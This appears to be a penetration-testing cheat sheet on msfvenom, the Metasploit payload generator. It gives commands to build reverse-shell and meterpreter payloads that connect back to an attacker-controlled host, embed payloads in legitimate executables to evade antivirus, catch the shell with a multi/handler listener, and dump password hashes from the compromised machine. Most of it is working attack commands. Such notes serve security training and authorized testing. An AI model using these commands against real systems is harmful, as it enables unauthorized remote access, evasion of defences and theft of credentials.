 # Msfvenom

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}

### General syntax

{% code overflow="wrap" %}
```sh
$ msfvenom --payload <payload> --format <format> --platform <platform> --arch <architecture> LHOST=<ATTACKER_ADDR> LPORT=<ATTACKER_LISTEN_PORT> --output <output_file>

# short form options
$ msfvenom -p <payload> -f <format> -p <platform> -a <architecture> LHOST=<ATTACKER_ADDR> LPORT=<ATTACKER_LISTEN_PORT> -o <output_file>
```
{% endcode %}

### Help menu

```bash
$ msfvenom -h
```

### List available options for module type

```bash
$ msfvenom -l payloads
$ msfvenom -l encoders
$ msfvenom -l nops
$ msfvenom -l all
```

### Payload option

```bash
$ msfvenom -p ...

# eg. 
$ msfvenom -p linux/x86/shell_reverse_tcp
```

#### Common payloads

1. `windows/x64/shell/reverse_tcp` | `linux/x64/shell/reverse_tcp`
2. `windows/x64/shell_reverse_tcp` | `linux/x64/shell_reverse_tcp`
3. `windows/x64/meterpreter/reverse_tcp` | `linux/x64/meterpreter/reverse_tcp`
4. `windows/x64/meterpreter_reverse_tcp` | `linux/x64/meterpreter_reverse_tcp`

### Format option

```bash
$ msfvenom -f ...

# eg.
$ msfvenom -f elf
$ msfvenom -f exe
 
```

_**Note**_: The output from `msfvenom` provides the shellcode (typically raw machine code) that can be executed on the target architecture, and is defined by the `-p` flag. The `-f` flag simply specifies the format for which the shellcode should be in.

Eg. **Powershell**

`[Byte[]] $buf = 0xfc,0x48,0x83,...`

Eg. **C**

`unsigned char buf[] = "\xfc\x48\x83...`

Eg. **Python**

`buf = b""`&#x20;

`buf += b"\xfc\x48\x8`

`buf += b"\...`

### Template

```sh
$ msfvenom -x ...
$ msfvenom --template ...
```

* can be used to specify a custom executable file to be used as template
* this means that the original functionality of the provided executable file will be fulfilled, but with the addition of the payload specified by an attacker
* may bypass AV, etc.

### CMD

{% code overflow="wrap" %}
```sh
$ msfvenom -p <platform> CMD="xxxx" -f <format> -o <output_file>.exe
```
{% endcode %}

Eg. Generate an x64 Windows `.exe` payload that executes a certain `powershell.exe` command (`CMD` option)

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/exec CMD="powershell.exe ..." -f exe -o <output_file>.exe
```
{% endcode %}

### Example

`linux/x86/meterpreter/reverse_tcp`

```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.xxx.xxx LPORT=8000 -f elf > shell.elf
```

#### Module to use on the attacking machine to catch a shell

`exploit/multi/handler`

```bash
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport xxxx
msf6 exploit(multi/handler) > run
```

#### Run the shellcode on the target machine

```bash
# eg.
$ sudo ./shell.elf
```

#### Gain meterpreter shell on the attacker machine

```
meterpreter >
```

#### Using post exploitation hash dump module&#x20;

```bash
meterpreter > background
msf6 exploit(multi/handler) > sessions -l 

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/linux  ...                    ...

msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > show options
msf6 post(linux/gather/hashdump) > set session 1
msf6 post(linux/gather/hashdump) > run
...
```

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}
